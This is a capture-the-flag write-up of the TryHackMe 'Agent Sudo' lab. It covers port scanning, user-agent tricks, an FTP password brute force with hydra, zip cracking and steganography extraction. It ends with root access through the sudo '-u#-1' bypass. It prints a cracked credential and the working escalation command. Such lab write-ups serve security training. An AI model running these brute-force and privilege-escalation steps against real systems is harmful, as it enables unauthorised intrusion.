 ```yaml
---
title: "Agent Sudo"
date: 2024-07-02
draft: false
summary: "Writeup for Agent Sudo CTF challenge on TryHackMe."
tags: ["linux", "sudo", "steganography", "hash crack"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/agent_sudo/cover.png"
  caption: "Agent Sudo TryHackMe Challenge"
  alt: "Agent Sudo cover"
platform: "TryHackMe"
---
```


We found a secret server located under the deep sea. Our task is to hack inside the server and reveal the truth.
<!--more-->
To access the lab, click on the link given below:-
- https://tryhackme.com/r/room/agentsudoctf

## Recon

I performed an **nmap** aggressive scan to identify open ports and running services.

```shell
nmap -A TARGET -T4
```

| **Port** | **Service** |
| -------- | ----------- |
| 21       | ftp         |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/agent_sudo/1.png)

## Initial Foothold

I accessed the web server using **curl** and received instructions on how to access the page.

```shell
curl http://TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/2.png)

Since the message was written by *Agent R*, I tried using the nickname *R* to access the page and received a new message.

```shell
curl -A 'R' -L http://TARGET
```
> The **-L** flag in curl is used to follow redirects.

![](https://cdn.ziomsec.com/agent_sudo/3.png)

I tried accessing different pages by changing the alphabet and finally found a way to get in when I used **C**.

```shell
curl -A 'c' -L http://target
```

![](https://cdn.ziomsec.com/agent_sudo/4.png)

I found a username called *chris* so I attempted to crack its password for the other 2 services found running, namely *ftp* and *ssh*.

```shell
hydra -l 'chris' -P /usr/share/wordlists/rockyou.txt ftp://TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/5.png)

| username | password |
| -------- | -------- |
| chris    | crystal  |

I then connected to the *ftp* server using these credentials.

```shell
ftp chris@TARGET
# enter password
```

![](https://cdn.ziomsec.com/agent_sudo/6.png)

I then downloaded all the files from the server.

```ftp
get To_agent3.txt
get cute-alien.jpg
get cutie.png
```

![](https://cdn.ziomsec.com/agent_sudo/7.png)

The txt file provided a hint for getting the credentials for *agent J*.

![](https://cdn.ziomsec.com/agent_sudo/8.png)

I then used **binwalk** to search for hidden files inside the images and found some in the *cutie.png*.

```shell
binwalk cutie.png
```

![](https://cdn.ziomsec.com/agent_sudo/9.png)

I then extracted the file from inside the image.

```shell
binwalk cutie.png -e --run-as=root
```

![](https://cdn.ziomsec.com/agent_sudo/10.png)

The hidden folder contained a zip file. However, this file was password protected - so I converted it to **john** crackable format and cracked its password using **john**.

![](https://cdn.ziomsec.com/agent_sudo/11.png)

```shell
zip2john 8702.zip > myzip.hash
john myzip.hash
```

![](https://cdn.ziomsec.com/agent_sudo/12.png)

I then extracted the files from the **zip** using this password.

```shell
7z e 8702.zip
# enter password
```

![](https://cdn.ziomsec.com/agent_sudo/13.png)

The zip contained a txt file, so I read that.

![](https://cdn.ziomsec.com/agent_sudo/14.png)

The text inside `''` looked encoded, so I visited **CyberChef** and decoded it
- https://gchq.github.io/CyberChef/ 

![](https://cdn.ziomsec.com/agent_sudo/15.png)

I used the **steghide** command with the password *Area51* to extract information from the JPEG image file.

```shell
steghide extract -sf cute-alien.jpg
```

![](https://cdn.ziomsec.com/agent_sudo/16.png)

I read the *message.txt* file and found the password of *james*.

![](https://cdn.ziomsec.com/agent_sudo/17.png)

I then logged as *james* via **SSH**.

```shell
ssh james@TARGET
```

![](https://cdn.ziomsec.com/agent_sudo/18.png)

I captured the first flag from my home directory.

![](https://cdn.ziomsec.com/agent_sudo/19.png)

There was another image along with my flag. I transferred it to my system using an **HTTP** server.

```shell
python3 -m http.server 8080
```

![](https://cdn.ziomsec.com/agent_sudo/20.png)

```shell
wget http://TARGET:8080/alien_autospy.jpg
```

![](https://cdn.ziomsec.com/agent_sudo/21.png)

I then conducted a Google reverse image search to gather more information about the image.

![](https://cdn.ziomsec.com/agent_sudo/22.png)

## Privilege Escalation

### Enumeration
I downloaded the **Linux Smart Enumeration** script and ran it on the target.
- https://github.com/diego-treitos/linux-smart-enumeration

![](https://cdn.ziomsec.com/agent_sudo/23.png)

![](https://cdn.ziomsec.com/agent_sudo/24.png)

![](https://cdn.ziomsec.com/agent_sudo/25.png)

The script identified a very interesting permission. We could run the `/bin/bash` shell as any user accept *root*.

![](https://cdn.ziomsec.com/agent_sudo/26.png)

I manually verified the same and checked my **sudo** version to search for ways to bypass this restriction.

```shell
sudo -l
sudo --version
```

![](https://cdn.ziomsec.com/agent_sudo/27.png)

### Bypassing Sudo Restriction
**Exploit-DB** contained a bypass that would work on my **sudo** version.

![](https://cdn.ziomsec.com/agent_sudo/28.png)

I read the **POC** and replicated it to escalate my privileges.

```
sudo -u#-1 /bin/bash
```

![](https://cdn.ziomsec.com/agent_sudo/29.png)

I captured the *root* flag and revealed Agent R's identity.

![](https://cdn.ziomsec.com/agent_sudo/30.png)

## Closure

Here's a summary of how I compromised **agent sudo**:
- I accessed the web server, which required a specific **user-agent** for entry.
- After gaining access, I conducted a **password spray** attack and discovered **chris's** **ftp** password.
- Downloading all files from the **ftp** server, I uncovered hidden messages and passwords within images.
- Using **john**, I cracked the password for *cutie.png* and obtained access to *cute-alien.jpeg*.
- Extracting files from *cute-alien.jpeg*, I found credentials for **ssh** login.
- With these credentials, I established initial access.
- Finally, identifying a vulnerability in **sudo**, I applied an exploit from **exploit-db** to gain **root** access.

That concludes my approach. Happy hacking!

---
